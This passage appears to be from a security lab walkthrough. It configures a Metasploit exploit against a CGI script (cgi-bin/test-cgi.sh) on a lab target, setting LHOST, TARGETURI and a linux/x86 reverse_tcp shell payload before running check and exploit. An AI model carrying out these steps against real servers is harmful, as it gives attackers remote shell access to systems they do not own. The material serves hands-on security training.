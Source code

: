 SS24
<img width="1062" height="137" alt="Screenshot 2025-09-13 183142" src="https://github.com/user-attachments/assets/071d6eff-9694-4f4a-8813-35ebb4af78f7" />

At the msf5 prompt, **execute set LHOST 10.0.1.3** to set the listening host.

SS25
<img width="890" height="77" alt="Screenshot 2025-09-13 183222" src="https://github.com/user-attachments/assets/736b1e2d-adb8-4307-98eb-ebd36fcbf112" />

At the msf5 prompt, **execute set TARGETURI cgi-bin/test-cgi.sh** to set the target URI (Uniform Resource Identifier).

SS26
<img width="1072" height="90" alt="Screenshot 2025-09-13 183258" src="https://github.com/user-attachments/assets/0155c648-da9c-44ad-9b35-fe91f0c8477e" />

*The TargetURI is / (the root directory) by default. Information on the location of the CGI script in the web server’s file structure would typically be gained in advance of the attack by performing reconnaissance on the target. In this case, you have discovered the script is called test-cgi.sh, and is located in the cgi-bin directory.*

At the msf5 prompt, **execute show options** and to verify your new settings.

SS27
<img width="1187" height="742" alt="Screenshot 2025-09-13 183404" src="https://github.com/user-attachments/assets/7c6abef6-27c3-4bd0-832a-d3932b67712a" />

At the msf5 prompt, **execute show payloads** to determine the available payload within the Metasploit Framework.

*A payload consists of code that will run on the server once a successful exploit has been achieved. It will dictate what actions you can perform on your newly exploited machine.*

At the msf5 prompt, **execute use 26** to select the linux/x86/shell/reverse_tcp payload.

SS28
<img width="1223" height="715" alt="Screenshot 2025-09-13 183513" src="https://github.com/user-attachments/assets/50052365-62d8-4fa2-a756-bfa2cd58a868" />

Once the machine has been exploited, this payload will establish a reverse shell connection to the listening host over the TCP protocol.

Optionally, you may set a payload explicitly using the set PAYLOAD <path/payloadname> command. This would be desirable if you have created a custom payload for the attack, or require one that is not listed. For example, all of the payloads here are specific to x86 architecture, meaning they are intended for 32-bit operating systems. To use the 64-bit version, you would type _set PAYLOAD linux/x64/shell/reverse_tcp_ instead (assuming such a module exists).

The target machine is running a 64-bit operating system; however, in this case, the architecture will not affect the success of the payload execution, so you will stick with the x86 version.

At the msf5 prompt, **execute check** to gauge the readiness of the exploit, as well as the vulnerability of the target machine.

SS29
<img width="742" height="105" alt="Screenshot 2025-09-13 183621" src="https://github.com/user-attachments/assets/0e22dfce-9087-4fb6-9d9f-c46e48c57734" />

At the msf5 prompt, **execute exploit** to initiate the exploit using the parameter values you configured, and the payload you selected.
